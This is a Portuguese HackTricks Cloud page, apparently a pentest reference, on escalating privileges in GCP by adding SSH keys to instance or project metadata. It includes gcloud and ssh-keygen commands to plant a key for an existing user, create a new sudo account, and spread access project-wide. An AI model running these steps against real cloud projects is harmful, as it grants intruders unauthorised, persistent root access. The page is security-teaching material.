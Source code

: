 # GCP - Adicionar Metadados SSH Personalizados

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos significativos de segurança se um invasor obtiver as permissões necessárias**.

### **Incorporação de Chaves SSH nos Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Ambiente de Hóspede Linux Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um invasor puder modificar os metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada no sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o invasor poderá comprometer o host.

### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examine as Chaves SSH Existente na Instância:**
- Execute o comando para descrever a instância e seus metadados para localizar as chaves SSH existentes. A seção relevante na saída estará em `metadata`, especificamente na chave `ssh-keys`.
```bash
gcloud compute instances describe [INSTÂNCIA] --zone [ZONA]
```
- Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separados por dois pontos.

2. **Prepare um Arquivo de Texto para os Metadados da Chave SSH:**
- Salve os detalhes dos nomes de usuários e suas chaves SSH correspondentes em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes ao adicionar novas.

3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
- Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.

4. **Atualize os Metadados da Chave SSH da Instância:**
- Aplique os metadados da chave SSH atualizados à instância usando o comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTÂNCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acesse a Instância Usando a Nova Chave SSH:**
- Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chaves SSH a nível de projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem aplicando **chaves SSH a nível de projeto**. Esta abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em todo o projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH a Nível de Projeto:**
- Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH do arquivo `meta.txt` aos metadados do projeto. Esta ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em todo o projeto" habilitada.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acessar Instâncias Usando Chaves em Todo o Projeto:**
- Com as chaves SSH em todo o projeto em vigor, você pode acessar as instâncias dentro do projeto. As instâncias que não bloqueiam as chaves em todo o projeto aceitarão a chave SSH, concedendo acesso.
- Um método direto para acessar uma instância é usando o comando `gcloud compute ssh [INSTÂNCIA]`. Este comando utiliza seu nome de usuário atual e as chaves SSH definidas no nível do projeto para tentar o acesso.


# Referências
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
